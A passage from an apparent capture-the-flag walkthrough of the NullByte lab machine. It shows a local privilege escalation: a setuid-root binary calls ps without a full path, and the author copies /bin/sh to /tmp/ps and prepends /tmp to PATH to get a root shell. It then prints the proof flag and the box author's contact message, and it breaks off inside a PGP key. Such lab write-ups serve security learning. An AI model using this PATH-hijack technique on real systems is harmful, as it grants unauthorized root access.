 ```bash
ramses@NullByte:~$ 

```
Next clue, a program called procwatch in /var/www/backup. 

```bash
ramses@NullByte:~$ cd /var/www/backup
ramses@NullByte:/var/www/backup$ ls
procwatch  readme.txt
rramses@NullByte:/var/www/backup$ ./procwatch 
  PID TTY          TIME CMD
 2208 pts/0    00:00:00 procwatch
 2209 pts/0    00:00:00 sh
 2210 pts/0    00:00:00 ps
ramses@NullByte:/var/www/backup$
```

Alright so procwatch seems to just be listing the processes. There has to be something more to this. After trying a number of useless attempts, I decide to take a slightly deeper look into this file. 

```bash
ramses@NullByte:/var/www/backup$ ls -l procwatch 
-rwsr-xr-x 1 root root 4932 Aug  2 01:29 procwatch
ramses@NullByte:/var/www/backup$ file procwatch 
procwatch: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=17d666a0c940726b29feedde855535fb21cb160c, not stripped
ramses@NullByte:/var/www/backup$ 
```
Okay so we have an executable, that's running ps as root. Hmm. Okay since ps is really just a file in /bin, and $PATH sets the directories where executables can be found, I'm going to have to manipulate this environment variable. If I can get procwatch to run sh instead of ps, it should give me root shell :) I decide to copy the current shell executable (/bin/sh) into /tmp. I initially wanted to do ```cp /bin/sh /usr/local/bin/ps```  given /usr/local/bin was first on the list. Permission denied. Stupid decision I know. So end up prepending /tmp to $PATH, then running procwatch again. 

```bash
ramses@NullByte:~$ cp /bin/sh /tmp/ps
ramses@NullByte:~$ export PATH=/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
ramses@NullByte:~$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
ramses@NullByte:~$ cd /var/www/backup
ramses@NullByte:/var/www/backup$ ./procwatch 
# id
uid=1002(ramses) gid=1002(ramses) euid=0(root) groups=1002(ramses)
```
Yes! Officially root. Now just grab the key and we are out of here!

```bash
# cd /root  		
# ls
proof.txt
# cat proof.txt	
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats. 
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com


USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
```